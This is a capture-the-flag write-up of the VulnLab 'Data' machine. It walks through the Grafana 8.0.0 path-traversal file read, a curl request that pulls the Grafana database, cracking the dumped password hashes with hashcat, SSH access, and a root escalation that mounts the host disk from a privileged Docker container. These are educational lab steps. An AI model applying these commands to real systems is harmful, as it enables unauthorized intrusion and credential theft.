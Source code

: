 ```yaml
---
title: VulnLab -- Data Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion]
image:
    path: images/data-banner.png
---
```

# Data

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Data** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.
![image.png](../images/data-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,3000 --min-rate=1000 10.10.100.171
```

![image.png](../images/data.png)

Now let’s open the website that is working on port 3000

![image.png](../images/data%201.png)

Notice that its running grafana v8.0.0

![remo.png](../images/data%202.png)

Notice that it’s vulnerable to File Read so let’s download the exploit and run it.

```bash
python3 exploit.py -H http://10.10.100.171:3000
```

![remo.png](../images/data%203.png)

> Notice that we got the content of the /etc/passwd file
> 

Now let’s save the grafana database.

```bash
curl --path-as-is http://10.10.100.171:3000/public/plugins/welcome/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

![remo.png](../images/data%204.png)

now let’s enumerate the database for interesting things.

![remo.png](../images/data%205.png)

notice that there was a table named user.

Now let’s dump it.

```bash
select * from user;
```

![remo.png](../images/data%206.png)

now let’s go and use grafana2hash to make the hash that we can crack

```bash
go run Grafana2Hash.go 7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8 YObSoLj55S
go run Grafana2Hash.go dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8 LCBhdtJWjl
```

![remo.png](../images/data%207.png)

now let’s crack those hashes

```bash
hashcat -m 10900 crackme.txt /usr/share/wordlists/rockyou.txt
```

![remo.png](../images/data%208.png)

> Notice that we got the password do the user Boris
> 

now let’s login to the SSH

![remo.png](../images/data%209.png)

> notice that we got initial access and we can now get the user.txt
> 

Now let’s try elevating our privilege.

```bash
sudo -l
```

![remo.png](../images/data%2010.png)

notice that we can execute commands in docker as root.

now let’s enter the container.

```bash
sudo /snap/bin/docker exec --privileged --user 0 -it grafana /bin/bash
```

![remo.png](../images/data%2011.png)

Now let’s check the disks.

```bash
fdisk -l
```

![remo.png](../images/data%2012.png)

Now let’s mount this disk in our continer.

```bash
mount /dev/xvda1 .
```

![remo.png](../images/data%2013.png)

> For some reason my docker is broke and the ls command is not working 😟
> 

But! since I know that I mounted it now lets try to enter the root directory.

```bash
cd root/
```

![remo.png](../images/data%2014.png)

and now let’s get the flag.

![remo.png](../images/data%2015.png)

and we did it! we Pwned data from vulnlab

![remo.png](../images/data%2016.png)

I hope you enjoyed my solution hope we meet in future writeups and goodbye for now

Yours Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT